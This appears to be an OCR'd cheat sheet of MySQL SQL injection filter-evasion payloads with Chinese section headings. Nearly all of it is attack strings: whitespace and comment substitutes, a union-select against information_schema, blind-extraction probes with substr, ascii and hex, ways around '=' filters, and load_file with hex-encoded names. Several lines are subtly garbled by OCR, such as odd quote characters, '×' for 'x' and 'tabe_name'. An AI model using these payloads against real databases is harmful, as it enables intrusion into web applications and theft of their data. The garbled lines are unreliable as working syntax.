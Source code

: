 ```
%20 %09 %0a %0b %0c %0d %a0 /**/
'or+(1)sounds/**/like"1"–%a0-
'union(select(1),tabe_name,(3)from`information_schema`.`tables`)#

#有引号的字符串
SELECT 'a'
SELECT "a"
SELECT n'a'
SELECT b'1100001′
SELECT _binary'1100001′
SELECT x'61′

#没有引号的字符串
　'abc' = 0×616263
　　' and substr(data,1,1) = 'a'#
　　' and substr(data,1,1) = 0x61 # 0x6162
　　' and substr(data,1,1) = unhex(61)    # unhex(6162)
　　' and substr(data,1,1) = char(97  )# char(97,98)
　　' and substr(data,1,1) = 'a'#
　　' and hex(substr(data,1,1)) = 61#
　　' and ascii(substr(data,1,1)) = 97#
　　' and ord(substr(data,1,1)) = 97# 
　　' and substr(data,1,1) = lower(conv(10,10,36))# 'a'

#别名
select pass as alias from users
select pass`alias alias`from users

#字型
' or true = '1 # or 1=1
' or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
' or '1 # or true
#操作符字型
select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'

#认真绕过'='
select * from users where name = "="
select * from users where false = "
select * from users where 0 = 0
select * from users where true#函数过滤器 ascii (97)
load_file/*foo*/(0×616263)

#用函数构建字符串
'abc' = unhex(616263)
'abc' = char(97,98,99)
 hex('a') = 61
 ascii('a') = 97
 ord('a') = 97
'ABC' = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36))

#特殊字符
　　aes_encrypt(1,12) // 4 鏷眥�"^z 譎é蒃 a
　　des_encrypt(1,2) // 侴Ò/镏 k
　　@@ft_boolean_syntax // + -><()~*:""&|
　　@@date_format // %Y-%m-%d
　　@@innodb_log_group_home_dir // .\

@@new: 0
@@log_bin: 1
#提取子字符串 substr('abc',1,1) = 'a'
substr('abc' from 1 for 1) = 'a'
```